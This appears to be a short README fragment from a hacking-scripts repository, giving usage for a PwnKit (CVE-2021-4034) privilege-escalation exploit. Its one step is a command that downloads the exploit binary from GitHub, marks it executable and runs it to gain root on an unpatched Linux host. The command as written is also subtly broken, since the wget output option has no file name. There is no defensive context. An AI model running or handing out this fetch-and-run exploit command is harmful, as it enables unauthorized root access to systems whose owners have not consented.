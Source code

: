 ### Usage


Download the executable file, change permission and run it.

```
wget -O https://github.com/mutur4/Hacking-Scripts/blob/main/CVE-2021-4034/pwnkit_version_2/pwnkit?raw=true && chmod +x ./pwnkit && ./pwnkit 
```
